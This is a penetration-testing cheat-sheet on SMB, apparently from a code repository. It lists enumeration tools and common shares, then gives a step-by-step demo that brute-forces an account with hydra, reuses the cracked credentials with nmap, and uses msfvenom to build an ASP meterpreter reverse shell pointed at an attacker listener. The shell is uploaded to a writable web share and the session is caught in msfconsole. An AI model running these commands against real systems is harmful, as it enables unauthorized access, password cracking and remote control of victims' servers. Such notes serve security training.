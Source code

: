 # SMB
- The protocol used for sharing between devices in MS and Linux
- Also known as CIFS
- SAMBA is linux version
- TCP port 139 is SMB over NETBIOS (older windows)
- TCP 445 is SMB over IP (newer)

## Enumeration Tools
- Nmap NSE
- enum4linux
- smbclient
- rpcclient

## Common Shares
C$ - C drive of remote host
Admin$ - windows install dir
IPC$ - inter-process communication

## Key points
- can you access as guest
- can you brute force
- can you read / write
- if you can write to a share can you access it later for a shell?

# Enumerate Shares
There are multiple ways to enumerate SMB shares.

```
net share

nmap 192.168.1.1 -p 445 -sV -sC --script=smb-enum-shares
nmap 10.10.10.10 -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse

smbclient -L \\192.168.1.1 --option='client min protocol=NT1'
enum4linux -S 10.10.10.10
```

## Enumrate Users RPCClient
We can use this to enumerate the server, users and domain users on the system.

`rpcclient -U "" 192.168.1.1 --option='client min protocol=NT1'`

## Connecting
Connect to SMB share:
`smbclient \\\\192.168.1.1\\SHARENAME`
 
Connect with user:
`smbclient \\\\192.168.1.1\\inetpub --option='client min protocol=NT1' -U IEUSER`

## Brute Force with Hydra
Bruce force an account with the following command:
`hydra -l IEUSER -P ~/Desktop/passwords.lst 192.168.1.1 smb`

## Downloading Files
```sh
smbget -R smb://10.10.10.10/SHARENAME
```


## Enumeration Demo

 1. Use Nmap to scan and enumerate smb
```
nmap 192.168.1.1 --script=smb-enum* -p 445 -vvv
```

 2. Attempt to log in
 Using rpcclient:
 ```sh
 rpcclient -U "" 192.168.1.1
 rpcclient $> ?
 ```

 Using smbclient
 ```sh
 smbclient \\\\192.168.1.1\\SHARENAME
 ```

 3. Discover Users
 It is possible to guess using common numbers

```sh
rpcclient $> queryuser 500 (admin)
rpcclient $> queryuser 1000 (admin)
```

4. Once you have found a user, we will use hydra to brute force the password.
`hydra -l IEUSER -P passwords.lst 192.168.1.1 smb`

5. Now that we have a username and password we can run nmap again using those credentials.
```
nmap --script smb-enum* --script-args smbusername=IEUSER, smbpass=Passw0rd! -p445 192.168.1.1
```

6. This will give us signigicantly more information:
- logged in sessions
- other users
- directories

7. We'll notice this user has read / write access to the webserver "inetpub". We'll want to access this directly.
```smb
smbclient \\\\192.168.1.1\\inetpub -U IEUSER
smb: \> cd
```

8. Create .asp reverse shell using MSFVenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -f asp > shell.asp
msfconsole -x "use /exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.168.1.1; set lport 4444; run -j"
```
`-j` - Background process


9. Moving back to our smb session:
```sh
smb:  put shell.asp shell.asp
```

10. On the exploited webserver go to the uploaded shell.asp file
A meterpreter sessions will be opened. 
```sh
msf6 exploit(multi/handler) > session 1
meterpreter > shell
```

